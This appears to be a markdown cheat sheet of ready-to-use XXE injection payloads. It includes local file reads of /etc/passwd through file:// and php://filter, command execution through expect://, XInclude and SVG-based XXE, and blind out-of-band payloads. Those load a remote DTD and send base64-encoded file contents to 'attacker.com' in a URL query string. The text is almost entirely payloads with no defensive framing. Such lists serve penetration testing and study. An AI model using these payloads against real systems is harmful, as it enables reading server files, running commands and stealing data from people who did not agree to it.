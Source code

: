 XXE File Read
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
XXE File Read PHP Wrappers
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
RCE PHP Wrappers
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "expect://id"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
### DTD Blind XXE
OAST detection
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
```
OAST detection parameter entities
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY % xxe SYSTEM "http://attacker.com/"> 
%xxe;]>
```
(PHP) OAST File Read (xxe.dtd)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://attacker.com/?content=%file;'>">
```
OAST File Read payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<stockCheck><productId>&content;</productId></stockCheck>
```
OAST File Read parameter entity
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY &#x25; content SYSTEM 'http://attacker.com/?content=%file;'>">
```
OAST File Read payload parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
  %content;
]>
```
OAST Error File Read (xxe dtd)
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```
### XInclude
Payload for file read, found server-side XML parsing
```XML
<foo+xmlns:xi="http://www.w3.org/2001/XInclude">+<xi:include+parse="text"+href="file:///etc/passwd"/></foo>
```
### SVG XXE
Xinclude
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
XML
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">
		&xxe;
	</text>
</svg>
```
OAST XML
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">
		&xxe;
	</text>
</svg>
```